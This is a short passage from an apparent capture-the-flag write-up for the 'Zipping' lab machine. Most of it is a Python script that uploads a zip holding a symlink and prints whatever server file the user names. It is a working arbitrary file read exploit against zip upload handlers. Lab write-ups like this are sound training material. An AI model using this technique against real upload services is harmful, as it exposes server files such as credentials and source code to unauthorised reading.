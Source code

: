 


 ![](images`2024-01-19-13-52-32.png)

&nbsp;



 The zipping path is `/var/www/html` and `/var/www/html/shop` lets try get the code . But i so lazy create files one by one to Read the file . So now im using the tools to read the file because its save time 

# Local File Inclusion



 ```
 #!/usr/bin/python3
import stat
import zipfile
import requests
import re
import os

url = "http://zipping.htb:80/upload.php"
base_url = "http://zipping.htb/"


def create_zip_with_symlink(output_zip_filename, link_source, link_target):
    zipInfo = zipfile.ZipInfo(link_source)
    zipInfo.create_system = 3
    unix_st_mode = (
        stat.S_IFLNK
        | stat.S_IRUSR
        | stat.S_IWUSR
        | stat.S_IXUSR
        | stat.S_IRGRP
        | stat.S_IWGRP
        | stat.S_IXGRP
        | stat.S_IROTH
        | stat.S_IWOTH
        | stat.S_IXOTH
    )
    zipInfo.external_attr = unix_st_mode << 16
    zipOut = zipfile.ZipFile(
        output_zip_filename, 'w', compression=zipfile.ZIP_DEFLATED)
    zipOut.writestr(zipInfo, link_target)
    zipOut.close()


while True:
    file = input("filename: ")
    create_zip_with_symlink('link.zip', 'link.pdf', file)
    with open('link.zip', 'rb') as f:
        file_content = f.read()

    files = [('zipFile', ('sym.zip', file_content, 'application/octet-stream'))]
    data = {"submit": ""}
    r = requests.post(url, data=data, files=files)

    link = re.search('uploads.*.pdf">', r.text).group(0).strip('">')
    print(requests.get(base_url + link).text)
```
&nbsp;
